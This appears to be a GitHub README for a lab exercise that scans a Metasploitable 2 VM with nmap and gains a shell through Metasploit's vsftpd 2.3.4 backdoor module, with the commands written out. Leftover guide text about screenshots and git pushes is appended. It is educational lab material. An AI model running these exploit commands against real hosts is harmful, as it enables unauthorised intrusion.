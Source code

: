 # Metasploitable 2 Penetration Testing (Cybersecurity Project)

This project is a simple demonstration of penetration testing techniques using the Metasploitable 2 virtual machine and Kali Linux, based on a tutorial by Loi Liang Yang.

## 📌 Project Objective
To simulate a basic cyberattack on a vulnerable system (Metasploitable 2) in a controlled lab environment and learn core ethical hacking techniques.

## 🎯 Tools & Technologies
•⁠  ⁠Kali Linux
•⁠  ⁠Metasploitable 2 VM
•⁠  ⁠Metasploit Framework
•⁠  ⁠Nmap

## 🔧 Methodology

### 1. Reconnaissance
Used ⁠ nmap ⁠ to identify open ports and services:
⁠ bash
nmap -sS -sV 192.168.1.105

2. Exploitation

Used Metasploit to exploit a known vulnerability.

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.105
exploit

3. Post-Exploitation

Accessed the shell and verified successful entry.

📺 Reference

Tutorial video: YouTube – Loi Liang Yang

⚠️ Disclaimer

This project is for educational purposes only. Always perform penetration testing in a legal and ethical manner with explicit permission.

📄 License

MIT License

---

### 3. **Add Screenshots or Images (Optional)**
- Take screenshots of your terminal or setup
- Save them in a folder (e.g., `/images`)
- Use Markdown to embed them:
 ⁠markdown
![Nmap Scan Result](images/nmap-scan.png)


⸻

4.⁠ ⁠Push Project Files (Optional)

If you have code/scripts or VM configuration files, you can upload them too:

git init
git add .
git commit -m "Initial commit - Metasploitable 2 Project"
git branch -M main
git remote add origin https://github.com/yourusername/metasploitable2-penetration-testing.git
git push -u origin main


